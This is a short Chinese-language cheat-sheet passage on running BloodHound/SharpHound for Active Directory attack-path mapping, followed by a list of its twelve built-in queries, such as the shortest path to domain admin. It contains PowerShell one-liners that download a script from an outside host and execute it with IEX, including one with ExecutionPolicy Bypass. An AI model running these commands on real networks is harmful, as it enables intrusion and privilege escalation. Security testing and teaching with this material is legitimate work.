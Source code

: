 # BloodHound

```powershell
# 他下面有俩个脚本，一个是ps1,一个是exe，功能都是一样的
https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors
./SharpHound.exe -c all # exe命令

# ps1的执行方法
. ./SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

# 下载文件
powershell IEX(New-object Net.webclient).downloadString('http://172.16.99.41:8080/11.ps1')
powershell -ExecutionPolicy Bypass  -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.99.41:8080/11.ps1','.\111111.ps1')"

# 在将文件上传到图形化中
```

下面我们进入查询模块，可以看到有预定义了12个常用的查看条件

1. 查找所有域管理员
2. 寻找最短到达域管理员路径
3. 寻找管理员登陆记录
4. 存在Session记录最多的前十个用户
5. 存在Session记录最多的前十个计算机
6. 拥有最多本地管理权限的前十个用户
7. 拥有最多的管理员登陆的前十个机器
8. 具有外部域组成员的用户
9. 具有外部域组成员的组
10. 域信任地图
11. SPN用户的最短路径
12. SPN用户到域管理员的最短路径


